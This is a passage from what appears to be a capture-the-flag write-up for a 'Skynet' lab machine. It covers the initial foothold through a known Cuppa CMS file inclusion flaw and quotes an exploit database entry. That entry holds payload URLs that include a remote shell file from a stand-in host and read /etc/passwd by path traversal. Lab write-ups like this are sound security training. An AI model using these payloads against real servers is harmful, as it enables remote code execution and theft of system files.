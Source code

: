 ![image](images/skynet-18.png)

### 2.3 Initial Foothold:<a name="23-initial-foothold"></a>

After some searching for exploits, we came across a vulnerability in the Cuppa CMS that led to full server compromise. The exploit in question was the **Local/Remote File Inclusion** vulnerability of the '/alertConfigField.php' in Cuppa CMS, as described on https://www.exploit-db.com/exploits/25971.

```
#####################################################
DESCRIPTION
#####################################################

An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. 
User tainted data is used when creating the file name that will be included into the current file. 
PHP code in this file will be evaluated, non-PHP code will be embedded to the output. 
This vulnerability can lead to full server compromise.

http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]

#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```
